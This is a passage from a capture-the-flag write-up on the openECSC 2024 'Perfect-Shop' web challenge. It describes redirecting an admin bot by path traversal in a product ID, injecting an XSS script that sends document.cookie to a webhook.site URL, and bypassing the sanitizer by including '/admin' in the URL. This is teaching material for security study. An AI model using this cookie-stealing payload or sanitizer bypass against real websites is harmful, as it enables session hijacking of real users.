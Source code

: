 <img class="img-responsive" src="/openecsc2024/Perfect-Shop/vid/BurpIDmodif.gif" alt="Modifying the product ID with Burp">

What I did was change the value of `id` from `1` to `1/../../search?q=Incredible` before it was sent to the server and consequently to the bot. To clarify, I would have achieved the same result if I had done this:

<img class="img-responsive" src="/openecsc2024/Perfect-Shop/img/HTMLmodif.png" alt="Modifying the product ID from client-side HTML">

Checking the logs, it can be seen that the bot is redirected to `search?q=Incredible`:

<img class="img-responsive" src="/openecsc2024/Perfect-Shop/img/BotFallsForIt.png" alt="Bot log visiting the search page with the value entered by the reporter">

A brief check of the site's route structure confirms this.

Now all that's left is to try the payload that worked before to exfiltrate our cookie on the bot. Trying the payload `<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>`, you would notice that the complete URL being visited is `http://localhost:3000/search?q=<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>` or `http://perfectshop.challs.open.ecsc2024.it/search?q=<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>` depending on whether you are testing the challenge locally or on the competition server.

This means that the same request must be made by the bot, which means making the same modification made before, combining it with the exploit already used:

<img class="img-responsive" src="/openecsc2024/Perfect-Shop/img/WePwnNoFilter.png" alt="Example of successful attack without filter">

Of course, I'm not URL-encoding the payload here just to make it easier to understand what's happening, but you viewers at home must remember to URL-encode properly <3 (on Burp, CTRL+U highlighting the text to be URL-encoded):

<img class="img-responsive" src="/openecsc2024/Perfect-Shop/vid/UrlEncoding4profit.gif" alt="Example of URL-encoded payload">

First, URL-encode for the query parameter value that the bot will send to the search endpoint, and then URL-encode for the entire payload that is about to be sent to the bot.

Sending this payload, you'll receive a request on the webhook with the test flag set in the config:

<img class="img-responsive" src="/openecsc2024/Perfect-Shop/img/FlagNoFilter.png" alt="Test flag sent on the webhook">

#### Third step: Cookie stealing on the bot with the sanitizer active
On line 16, let's modify the sanitizer again to set it as in the original application, then rebuild everything:

`app.use(sanitizer.clean({ xss: true }, ["/admin"]));`

Once the application is rebuilt, you'll notice that none of the payloads used previously will work anymore, being replaced instead by an empty string.

In this step, there are very few tricks that can be done. To solve this problem, one had to notice the error present in the sanitizer library, and during the competition, it was a far-from-immediate step.

Let's say that for any reason, whether you tried to enter an `/admin` in the request as a query parameter, or during static analysis, you noticed that something was wrong with the sanitizer, now it's known that if `/admin` is a substring of the request URL (remember once again: query parameters are part of the URL), it will cause the sanitizer to ignore any type of XSS payload that is sent.
